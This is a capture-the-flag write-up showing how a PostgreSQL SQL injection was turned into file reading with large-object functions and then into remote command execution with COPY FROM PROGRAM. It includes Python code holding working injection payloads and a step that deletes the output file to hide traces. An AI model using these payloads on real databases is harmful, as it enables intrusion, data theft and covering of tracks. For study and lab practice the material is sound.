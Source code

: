 # Challenge 6 - Instaloans Backup
- Solved by: @Elma, @BaeSenseii
- Flag: hli{i_HAvE_pERfoRM3d_s0M3_R3cTAl_toN51lL3cTOMY}

## Screenshot of Challenge
![alt](./images/chall-screenshot.png)

## Writeup
Based on the question, it stated that the flag is stated within the /external/backups directory of the DBMS server, which means that we somehow need to get remote code execution on the DB instance. Since we already have the initial PostgreSQL injection vulnerability, we need to find out a way as to how we can run commands on that system.

The first discovery was the ability to read files via the PostgreSQL DB service through the use of large objects (https://www.postgresql.org/docs/11/lo-funcs.html). For this to work, we need to do two things:
- Specify the file to import in the system using the lo_import() function. This will result in a Large Object ID (loid) value.
- Use the lo_get() function with the Large Object ID value to view the contents of the file (casted using the text() function). The result of this will be a long hex value, which will need to be decoded with ASCII hex in order to see the actual text.

![](./images/actf2023_c6_1.PNG)

![](./images/actf2023_c6_2.PNG)

Honestly speaking, just doing the injection alone seems to be a daunting task. So I decided to create a quick Python script to do the following steps AUTOMATICALLY:
- Register an account with the necessary details (including the SQLi payload appended into the ‘passport’ field)
- Log in with the new creds.
- View the user’s credit score to fetch the encoded file output and decode it in ASCII hex.

[code reference to lfi-postgres.py here]

What I would just need to do in this case is just to provide the filepath of the file that I want to view, as shown in the screenshot below.

![](./images/actf2023_c6_3.PNG)

However, this doesn’t solve the problem because we have no idea what is the actual filename within the /external/backups directory that contains the flag. 

And then, i found this: https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-to-program

Apparently there is a COPY FROM PROGRAM syntax that allows users to run commands and store the results into the database. However, since the field that we use to output the SQL injection data has a limited space, it would not be possible to return the output. BUT, it had dawned upon me to do this:
- Use the COPY FROM PROGRAM syntax to run a Linux command which will output to a file located anywhere (for this example i used /tmp/lol)
- Use the Large Object functions to read the created file.

So modifications were made on the current Python script by adding the following lines of code:

```python
# For RCE, we'll use the following:
# COPY from PROGRAM postgresql functionality that allows running of commands

rce_cmd = sys.argv[1]

sqli_postgres("; DROP TABLE IF EXISTS test; CREATE TABLE test(); COPY test from PROGRAM '"+rce_cmd+" > /tmp/lol';")
# Use the LFI capability to read the output file that contains the command output
lfi_p1 = sqli_postgres("UNION SELECT text(lo_import('/tmp/lol'))--")
lfi_p2 = sqli_postgres("UNION SELECT text(lo_get("+lfi_p1[0]+"))--")

data_lfi = ''.join([str(s) for s in lfi_p2[0]])
temp = bytes.fromhex(data_lfi[2:]).decode("ASCII")
print(temp)

# remove all evidence, don't want other competitors to know :D
sqli_postgres("; DROP TABLE IF EXISTS test; CREATE TABLE test(); COPY test from PROGRAM 'rm -rf /tmp/lol';DROP TABLE test;")

```
Since now we have a working Python RCE POC, it’s just a matter of listing the files within the /external/backups directory, and displaying the contents of the text file using the ‘cat’ command:

![](./images/actf2023_c6_5.PNG)

Here's the code reference for the PostgreSQL RCE Python script:

[reference to postgres rce here]